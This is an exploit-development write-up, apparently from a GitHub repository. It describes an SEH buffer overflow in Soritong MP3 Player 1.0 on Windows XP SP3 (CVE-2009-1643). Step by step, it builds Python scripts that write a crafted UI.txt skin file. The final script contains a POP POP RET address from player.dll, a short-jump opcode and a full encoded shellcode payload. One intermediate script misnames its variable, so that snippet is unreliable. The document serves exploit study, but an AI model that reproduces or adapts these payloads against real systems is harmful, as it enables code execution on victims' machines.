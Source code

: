 # Soritong MP3 Player 1.0 _ Win XP SP3 - Buffer Overflow


-   cve details: [CVE-2009-1643](https://nvd.nist.gov/vuln/detail/CVE-2009-1643)
-   Target: Soritong MP3 Player 1.0 
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

When program start ,It read config file for generate SKIN. I check installed folder and find folder Skin. This folder have several another folder. But because I use
default skin, I work on. in this folder are a file named UI.txt. Program save Skin confige in this file. I generate a exploit :

```
exploit="A" * 2000

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Program crashed. I run this program in Immunity. Programm creashed But EIP don't chabge to 41414141 and program send a exception.

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/1.PNG)

Program have BOF,but not vanilla or classic. Because it send exeption, I check SEH chain. For this: View > SEH Chain

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/2.PNG)

I overwrite SEH. For Exploit this program, I need use SEH technique. For this I need:

-   Overwrite Next SEH address
-   Overwrite Current SEH
-   Add our shellcode
-   Create exeption

I overwrite Next SEH address for jump to my shell code, Overwrite current SEH to jump Next SEH address and final create a exeption. \
First I need exactly Overwrite location. I use Mona. I create pattern and replace it to my shell code. run program,after program crashed go to SEH chain and Copy it
to Mona:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/3.PNG)

I change Exploit to this: (in 588, 584's to recive next seh and 4 for next seh)

```
#BBBB= next seh
#CCCC= current seh
#DDDD= shellcode

exploit="A" * 584 + "BBBB" + "CCCC" + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/4.PNG)

I successfully overwrite both. Now replace really value. In current SEH ,I can't add address because it execute location and I need use this location for jump
Next Seh. For this I need "POP POP ret". every pop ,jump 4 byte and I need 8 byte. after jump ,I'm in NEXT SEH location and when execute "ret", this address add
to EIP. For "POP POP ret", I need find a location.In exploit BOF by SEH, location isn't active SafeSEH. For check it ,I use Mona. "!mona seh". It create a txt file
and If check it :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/5.PNG)

So I selected location select this Module .I right click and select this:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/6.PNG)

and type:

```
pop r32
pop r32
ret
```

And select a location from player.dll and I select "100116fd" because it not null bye.after it , My exploit change to it:

```
exploit="A" * 584 + "CCCC" + "\xfd\x16\x01\x10"  + "DDDD"

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now we overwrite current SEH. when execption occur , program recive this location and from it jump to NEXT SEH. Now I go to overwrite NEX seh.
When program recive this location, It run instruction. So I need use assembly (opcode). If go to SEH chain and right click and select "fllow address in stack"
and see stack:

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/7.PNG)

BBBB is Next seh and DDDD is my shellcode. For jump from BBBB to DDDD , I dont use address like "jmp address" because I dont know this address. For solve this
problem, I use "short jmp". It jump by number of the step. like "short jmp 06", it jump 6 byte. opcode for this is "eb". I use "eb 6" and two NOP for create
current byte (8). I use it and shellcode to my exploit:

```
xploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

Now only thin I need, create a exeption. For this I use "A"*500. My exploit finally:

```
exploit="A" * 584 + "\xeb\x06\x90\x90" + "\xfd\x16\x01\x10"  +("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")+"A"*500

f=open("UI.txt","w")
f.write(exploit)
f.close()
```

after run :

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-1643_BOF/images/8.PNG)








